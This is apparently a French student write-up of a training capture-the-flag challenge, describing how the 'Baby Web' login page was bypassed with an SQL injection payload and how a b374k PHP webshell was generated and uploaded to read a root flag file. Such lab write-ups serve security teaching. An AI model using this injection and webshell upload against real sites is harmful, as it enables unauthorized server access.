 # SRS Capture The Flag
Dans le cadre de l'UV SRS à l'IMT Lille Douai, Advens nous a proposé de participé à un CTF (Capture The Flag) afin de nous former aux techniques de ethical hacking.
Ce document nous permettra d'expliquer les méthodes que nous avons employé pour résoudre les différents challenges de ce CTF. 


## Web

### Baby Web
Ce challenge commence sur une page d'authentification comprenant 2 champs : login/password. Afin de forcer le passage de cette page, nous avons utilisé une **injection SQL** en complétant l'un des champ avec le code suivant : `'OR 1=1'`.
> En effet, en supposant que la requête SQL executée du coté serveur est du type `SELECT * from admins WHERE login='$login' AND password='$password'`. Notre injection permettra d'avoir le code suivant exécuté du coté serveur et donc de forcer l'accès : `SELECT * from admins WHERE login=''OR 1=1'' AND password=whatever`.

Cela nous donne accès à une page d'upload de fichier sur le serveur. Afin de gagner un accès au serveur, nous allons injecter un shell via ce service d'upload. Nous utiliserons le webshell de  [b374k](https://github.com/b374k/b374k).
On génère un webshell grâce aux commandes suivantes : 
```
> git clone  https://github.com/b374k/b374k
> cd b374k
> php  -f  index.php  --  -o  shell.php  -p  password123
```
Il nous suffit donc du l'uploader sur le serveur pour avoir accès au serveur. Nous obtenons un shell avec les droits de l'application web. Ces droits nous permettent de mener nos investigations sur l'ensemble du serveur et notament dans le repertoire `/root` où nous trouverons le premier flag [screenshot](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/babyWeb/babyWeb_4.PNG). 
```
> cat /root/flag.txt
advens{easy_baby_web}
```